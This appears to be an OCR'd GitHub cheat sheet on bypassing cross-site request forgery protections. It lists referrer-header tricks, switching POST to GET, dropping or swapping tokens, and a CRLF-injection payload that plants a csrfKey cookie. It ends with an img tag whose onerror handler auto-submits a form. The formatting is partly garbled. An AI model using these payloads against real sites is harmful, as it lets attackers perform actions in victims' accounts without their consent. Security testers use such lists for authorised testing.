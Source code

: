 <h1>Cross-site request forgery (CSRF)</h1>
<h3>Test first:</h3>
<p><code>Referrer: https://example.com</code></p>
<p>if:</p>
<p>"Invalid referrer header" so:</p>
a
```html
<p><code>Referrer-Policy: unsafe-url</code></p>
```
<p>"Invalid referrer validation" so:</p>
<p><code><meta name="referrer" content="no-referrer"></code></p>
<p>else:</p>
<p>csrf without csrf protection - EZ</p>
<p>csrf validation depends on request method  - Change post to get</p>
<p>csrf delete csrf parameter or value.</p>
<p>csrf - drop request and test the token in other session </p>
<p>csrf + crlf - /?search=test%0d%0aSet-Cookie:%20csrfKey=your-key</p>
<p><code><img src="https://domain/?search=test%0d%0aSet-Cookie:%20csrfKey=your-key" onerror="document.forms[0].submit()"></code></p>

